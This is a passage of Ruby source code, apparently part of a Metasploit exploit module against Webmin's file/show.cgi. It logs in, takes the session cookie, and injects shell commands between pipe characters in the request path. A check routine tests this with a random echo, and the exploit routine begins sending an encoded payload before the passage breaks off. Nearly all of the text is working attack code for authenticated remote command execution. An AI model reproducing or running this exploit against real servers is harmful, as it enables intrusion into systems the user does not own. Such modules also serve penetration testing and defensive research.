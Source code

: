 ```ruby
		if res and res.code == 302 and res.headers['Set-Cookie'] =~ /sid/
			print_good "#{peer} - Authentication successful"
			session = res.headers['Set-Cookie'].split("sid=")[1].split(";")[0]
		else
			print_error "#{peer} - Authentication failed"
			return Exploit::CheckCode::Unknown
		end

		print_status("#{peer} - Attempting to execute...")

		command = "echo #{rand_text_alphanumeric(rand(5) + 5)}"

		res = send_request_cgi(
			{
				'uri'     => "/file/show.cgi/bin/#{rand_text_alphanumeric(5)}|#{command}|",
				'cookie'  => "sid=#{session}"
			}, 25)


		if res and res.code == 200 and res.message =~ /Document follows/
			return Exploit::CheckCode::Appears
		else
			return Exploit::CheckCode::Safe
		end

	end

	def exploit

		peer = "#{rhost}:#{rport}"

		print_status("#{peer} - Attempting to login...")

		data = "page=%2F&user=#{datastore['USERNAME']}&pass=#{datastore['PASSWORD']}"

		res = send_request_cgi(
			{
				'method'  => 'POST',
				'uri'     => "/session_login.cgi",
				'cookie'  => "testing=1",
				'data'    => data
			}, 25)

		if res and res.code == 302 and res.headers['Set-Cookie'] =~ /sid/
			session = res.headers['Set-Cookie'].scan(/sid\=(\w+)\;*/).flatten[0] || ''
			if session and not session.empty?
				print_good "#{peer} - Authentication successfully"
			else
				print_error "#{peer} - Authentication failed"
				return
			end
			print_good "#{peer} - Authentication successfully"
		else
			print_error "#{peer} - Authentication failed"
			return
		end

		print_status("#{peer} - Attempting to execute the payload...")

		command = payload.encoded

		res = send_request_cgi(
			{
```